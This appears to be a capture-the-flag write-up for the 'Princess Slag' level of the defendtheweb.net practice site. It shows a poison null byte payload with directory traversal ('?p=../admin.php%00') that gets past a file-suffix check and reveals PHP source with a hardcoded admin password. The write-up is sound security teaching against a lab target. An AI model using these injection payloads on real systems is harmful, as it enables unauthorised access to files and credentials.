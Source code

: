 <https://defendtheweb.net/playground/princess-slag>

## Poison Null Byte

The three tabs (i.e., home, news, contact) are accessible at: <https://defendtheweb.net/extras/playground/princess-slag/?p=index>

The admin page is accessible at: <https://defendtheweb.net/extras/playground/princess-slag/admin.php?password=rw>

We try to access <https://defendtheweb.net/extras/playground/princess-slag/?p=admin>, and then get:

```
Warning: file_get_contents(admin.html) [function.file-get-contents]: failed to open stream: No such file or directory in pages on line 22
```

Thus, it is able to use Null Byte Injection to let `.php` pass the check of `.html` suffix: <https://defendtheweb.net/extras/playground/princess-slag/?p=admin.php%00>.

```
Warning: file_get_contents(admin.php) [function.file-get-contents]: failed to open stream: No such file or directory in pages on line 22
```

Then go a leval up: <https://defendtheweb.net/extras/playground/princess-slag/?p=../admin.php%00>.

Then view source:

```
<div id="content">
    <?php
        session_start();
        if(isset($_GET['password']) ){
            if( $_GET['password'] == 'b3fa0b1861'){
                echo "Correct password"
            } else {
                echo "Incorrect password";
            }
        }
    ?>
    <form>
        <input type="password" name="password" /><input type="submit" value="Login" />
    </form>
</div>
```

Thus we can access the source code from the `.php` file in backend rather than the rendered `.html` in frontend.

## Reference

<https://defendtheweb.net/article/common-php-attacks-poison-null-byte>

<https://alexandervoidstar.wordpress.com/2015/11/07/hackthis-real-level-5/>
